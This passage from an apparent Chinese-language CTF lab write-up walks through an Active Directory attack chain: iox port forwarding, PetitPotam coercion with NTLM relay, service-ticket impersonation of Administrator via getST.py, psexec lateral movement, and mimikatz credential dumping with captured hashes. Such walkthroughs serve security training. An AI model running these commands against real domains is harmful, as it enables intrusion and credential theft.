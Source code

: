 用 iox 将来自 `0.0.0.0:80` 的流量转发至 `127.0.0.1:81`

```shell
root@ubuntu:/tmp# ./iox fwd -l 80 -r 127.0.0.1:81
[*] Forward TCP traffic between 0.0.0.0:80 (encrypted: false) and 127.0.0.1:81 (encrypted: false
```

PetitPotam

![image-20230816131725997](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308161317053.png)

ntlmrelayx

![image-20230816131744852](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308161317906.png)

申请 ST

```shell
proxychains getST.py xiaorang.lab/'XR-DESKTOP$' -hashes ':03e8d17f4da1797f6b69a9a7a23244c1' -spn cifs/XR-LCM3AE8B.xiaorang.lab -impersonate Administrator -dc-ip 172.22.11.6
```

psexec

```shell
proxychains psexec.py xiaorang.lab/administrator@XR-LCM3AE8B.xiaorang.lab -k -no-pass -dc-ip 172.22.11.6 -codec gbk
```

![image-20230816132121161](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308161321219.png)

flag03

![image-20230816132148925](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308161321984.png)

## flag04

mimikatz

```shell
sekurlsa::logonpasswords
mimikatz #
Authentication Id : 0 ; 744772 (00000000:000b5d44)
Session           : RemoteInteractive from 2
User Name         : zhanghui
Domain            : XIAORANG
Logon Server      : XIAORANG-DC
Logon Time        : 2023/8/16 12:27:42
SID               : S-1-5-21-3598443049-773813974-2432140268-1133
	msv :
	 [00000003] Primary
	 * Username : zhanghui
	 * Domain   : XIAORANG
	 * NTLM     : 1232126b24cdf8c9bd2f788a9d7c7ed1
	 * SHA1     : f3b66ff457185cdf5df6d0a085dd8935e226ba65
	 * DPAPI    : 4bfe751ae03dc1517cfb688adc506154
	tspkg :
	wdigest :
	 * Username : zhanghui
	 * Domain   : XIAORANG
	 * Password : (null)
	kerberos :
	 * Username : zhanghui
	 * Domain   : XIAORANG.LAB
	 * Password : (null)
	ssp :
	credman :
	cloudap :
```